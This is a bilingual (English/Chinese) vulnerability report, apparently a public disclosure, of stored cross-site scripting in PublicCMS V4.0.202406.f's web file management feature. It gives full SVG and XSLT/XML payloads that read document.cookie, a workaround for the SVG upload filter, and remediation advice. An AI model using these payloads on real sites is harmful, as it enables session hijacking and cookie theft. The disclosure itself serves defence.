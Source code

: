## Vulnerability Author: 

c0rdXy

## Affected Version: 

PublicCMS V4.0.202406.f

![image-20250108151648112](XSS_02.assets/image-20250108151648112.png)

## Vendor:

www.publiccms.com

https://github.com/sanluan/PublicCMS

https://github.com/sanluan/PublicCMS/releases

## Vulnerability File:

com/publiccms/controller/admin/cms/CmsWebFileAdminController.java

## Vulnerability Description:

PublicCMS V4.0.202406.f was discovered to contain a cross-site scripting (XSS) vulnerability via a crafted script to the Category Managment feature

## Vulnerability hazards

After a successful attack using XSS code, malicious users may get high permissions. The XSS vulnerability mainly has the following hazards:

1. Steal various user accounts;
2. Steal the user's Cookie information, impersonate the user's identity to enter the website;
3. Hijack user sessions and perform arbitrary operations; Refers to operating the user's browser;
4. Brush stream display, execution of commercial advertising;
5. Spread worms;
6. And so on...

## Payload_1

### svg

Open the Website File Management function point in the File ribbon and click the Create File button.

打开文件功能区中的网站文件管理管理功能点，点击创建文件按钮。

![image-20250109143352386](XSS_02.assets/image-20250109143352386.png)

Create an svg file, enter the following content, and save it.

创建一个svg文件，输入下列内容，然后保存。

```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900"
stroke="#004400"/>
<script type="text/javascript">alert(document.cookie);</script>
</svg>
```

![image-20250109143420194](XSS_02.assets/image-20250109143420194.png)

Same reason.

同理。

```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900"
stroke="#004400"/>
<script type="text/javascript">alert('XSS');</script>
</svg>
```

![image-20250109143501337](XSS_02.assets/image-20250109143501337.png)

Click the View button.

点击查看按钮。

![image-20250109143612532](XSS_02.assets/image-20250109143612532.png)

The XSS vulnerability is successfully triggered and the current cookie information is obtained.

成功触发XSS漏洞，获取到当前的Cookie信息。

![image-20250109143620956](XSS_02.assets/image-20250109143620956.png)

![image-20250109143629028](XSS_02.assets/image-20250109143629028.png)

### xml

Similarly, upload the xml file and put the following code in respectively. Note that two xml files need to be uploaded here.

The first xml file.

同理上传xml文件，分别放入如下代码，注意，此处需要上传两个xml文件。

第一个xml文件。

```xml
<?xml version="1.0" encoding="iso-8859-1"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<html><body>
<script>alert(document.cookie);</script>
</body></html>
</xsl:template>
</xsl:stylesheet>
```

![image-20250109143730317](XSS_02.assets/image-20250109143730317.png)

In the second XML file, put the URL of the first XML file in the href attribute.

第二个xml文件，在其中的href属性中放入第一个xml文件的URL。

```xml
<?xml version="1.0" encoding="iso-8859-1"?>
<?xml-stylesheet type="text/xsl" href="http://127.0.0.1:8080/webfile/1.xml"?>
<test></test>
```

![image-20250109143801740](XSS_02.assets/image-20250109143801740.png)

At this time, click to view the second XML file and successfully trigger the XSS vulnerability.

此时点击查看第二个xml文件，成功触发XSS漏洞。

![image-20250109143840042](XSS_02.assets/image-20250109143840042.png)

Same reason.

同理。

![image-20250109143927869](XSS_02.assets/image-20250109143927869.png)

![image-20250109143936838](XSS_02.assets/image-20250109143936838.png)

![image-20250109143944942](XSS_02.assets/image-20250109143944942.png)

## Payload_2

Click the Upload File button.

点击上传文件按钮。

![image-20250109151630058](XSS_02.assets/image-20250109151630058.png)

When trying to upload an svg file, it says the file is unsafe and cannot be uploaded.

尝试上传svg文件，提示文件不安全，无法上传。

![image-20250109151704662](XSS_02.assets/image-20250109151704662.png)

At this point we try to upload the xml file and it is uploaded successfully.

此时我们尝试上传xml文件，成功上传。

![image-20250109151751847](XSS_02.assets/image-20250109151751847.png)

![image-20250109151813694](XSS_02.assets/image-20250109151813694.png)

We continue to upload the second XML file and then check it. The XSS vulnerability is successfully triggered.

我们继续上传第二个xml文件，然后查看。成功触发XSS漏洞。

![image-20250109151842024](XSS_02.assets/image-20250109151842024.png)

![image-20250109151857809](XSS_02.assets/image-20250109151857809.png)

##Modification suggestion

* It is recommended to encode the input and output parameters in an entity format.
* It is recommended that you do not enable the online viewing function for svg and xml, and click to view the source file directly.
* It is recommended to prohibit illegal file uploading.